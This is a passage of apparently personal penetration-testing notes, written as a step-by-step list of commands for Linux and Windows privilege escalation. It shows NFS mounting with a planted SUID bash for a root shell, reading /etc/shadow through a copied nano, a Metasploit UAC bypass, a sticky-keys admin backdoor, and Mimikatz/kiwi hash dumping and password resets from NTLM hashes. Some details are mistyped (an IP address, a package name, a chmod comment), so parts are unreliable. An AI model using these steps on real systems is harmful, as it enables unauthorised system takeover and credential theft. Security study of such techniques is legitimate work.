 - In Attacking Machine Now install NFS commons
  - `sudo apt install nfs-commons`
- Check the mouted folder
  - `showmount -e 192.168.18.110`
- Now mount the share
  - `mkdir /tmp/nfs`
  - `sudo mount -t nfs 19.168.18.110:/home /tmp/nfs`
- Now move to the directory
  - `cd /tmp/nfs`
  - `cp /bin/bash .`
  - `chmod +s bash`   //allows the group to execute it
  - `ls -la bash`
- To check free space
  - `sudo df -h`
- Now ssh into the machine. Move to the shared directory and run bash and we will get the root shell
  - `cd /home`
  - `./bash -p`
- Useful commands post exploitation
  - `id`
  - `whoami`
  - `cat etc/cronjobs`
  - `find / -name *.txt -ls 2>/dev/null  to list all text files in system`
  - `route -n  host/network names in binary format`
- Now copy nano to current directory and then read shadow file
  - `sudo cp /bin/nano .`
  - `./nano -p /etc/shadow`
- To see running processes
  - `ps -ef`
- To view executable binaries
  - `find / -perm -4000 *.txt -ls 2>/dev/null`

#### 2.5 Escalate privliges bypassing UAC and sticky keys

- After you have a meterpreter session background it and then use the following exploit
  - `use exploit/windows/local/bypassuac_fodhelper`
- Then once you get a new meterpreter session, use the following command
  - `getsystem -t 1`
- To view the current sessions, you can use the following command.
  - `sessions -i*`
- Using sticky keys to priv esc on Win 11
- After the initial meterpreter session, use the following module.
  - `use post/windows/manage/sticky_keys`
- Now set the already priv escalated session in options and exploit it
- Now on Windows 11 , sign in with a normal user and once you press the stick keys(shift 5 times), you will get cmd as admin

#### 2.6 Priv esc using Mimikatz

- Metasploit has built in module for mimikatz call kiwi.
- First get a meterpreter session. Escalate privilege using bypassuac.
- In meterpreter load the module
  - `load kiwi`
  - `help kiwi` \\to see help
- To dump hashes
  - `lsa_dump_sam`
> We can also dump LSA Secrets using the following command. LSA secrets are used to manage local system security policy. it may contain passwords, IE passwords, SQL passwords etc
- change the password with kiwi with hash without knowing the original password.
  - `password_change -u raj -p 123 -P 9876`
  - `password_change -u raj -n <NTLM-hash> -P 1234`

---